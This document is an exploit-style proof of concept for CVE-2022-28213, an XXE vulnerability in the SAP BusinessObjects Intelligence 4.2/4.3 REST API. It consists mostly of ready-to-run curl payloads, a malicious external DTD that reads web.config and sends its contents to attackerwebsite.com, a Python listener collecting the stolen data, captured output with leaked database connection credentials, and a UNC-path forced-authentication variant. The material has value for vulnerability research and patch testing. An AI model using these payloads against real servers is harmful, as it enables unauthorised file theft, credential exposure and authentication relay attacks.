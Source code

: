 ### PoC
```shell
# Exploit Title: XXE - SAP BusinessObjects Intelligence 4.2 and 4.3 REST API  
# Google Dork: N/A
# Date: 4/21/2022
# Exploit Author: West Shepherd
# Vendor Homepage: https://www.sap.com/
# Software Link: https://www.sap.com/
# Version: 4.2 and 4.3
# Tested on: Windows Server 2019 x64
# CVE : CVE-2022-28213

curl -sk -X POST -H 'Content-Type: application/xml;charset=UTF-8' \
--data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "\\attackerwebsite.com\XXE\example">%remote;%int;%trick;]>' \
https://example.com/biprws/logon/long
```
### Examples
#### Reading Arbitrary Files
1. Triggering the XXE vulnerability:
```
root@attackerwebsite.com:~/SAP/XXE# curl -sk -X POST -H 'Content-Type: application/xml;charset=UTF-8' \
--data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "https://attackerwebsite.com/XXE.dtd">%remote;%int;%trick;]>' \
https://example.com/biprws/logon/long

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<error>
    <error_code>RWS 000079</error_code>
    <message>Enter a valid input (RWS 000079)</message>
</error>
```
2. Reading arbitrary files:
```
root@attackerwebsite.com:~/SAP/XXE# screen -S https
root@attackerwebsite.com:~/SAP/XXE# cat /var/www/html/XXE.dtd
<!ENTITY % payl SYSTEM "file:///c:/inetpub/wwwroot/web.config">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://attackerwebsite.com/?p=%payl;'>">
root@attackerwebsite.com:~/SAP/XXE# service apache2 start
[detached from 3986.https]

root@attackerwebsite.com:~/SAP/XXE# nohup python3 -m http.server 80 2>/dev/null 1>> ~/loot/web.config & 
[1] 3884
root@attackerwebsite.com:~/SAP/XXE# cat ~/loot/web.config
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.8.8.2 - - [07/Jan/2022 09:22:35] "GET /XXE.dtd?payl=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22utf-8%22%3F%3E%0A%3Cconfiguration%3E%0A%20%20%3CconnectionStrings%3E%0A%20%20%20%20%3Cadd%20name%3D%22DBConnection%22%20connectionString%3D%22server%3Ddb-victim.example.com%3Bdatabase%3DExampleDB%3Buid%3Dvictim.com%5Csvcaccount%3Bpassword%3DBadP%40ssw0rd123%3B%22%20/%3E HTTP/1.1" 200 -
...[snip]...
```
#### Forced Authentication
1. Triggering the XXE vulnerability:
```
root@attackerwebsite.com:~/SAP/XXE# curl -sk -X POST -H 'Content-Type: application/xml;charset=UTF-8' \
--data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "\\attackerwebsite.com\XXE\example">%remote;%int;%trick;]>' \
https://example.com/biprws/logon/long

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
```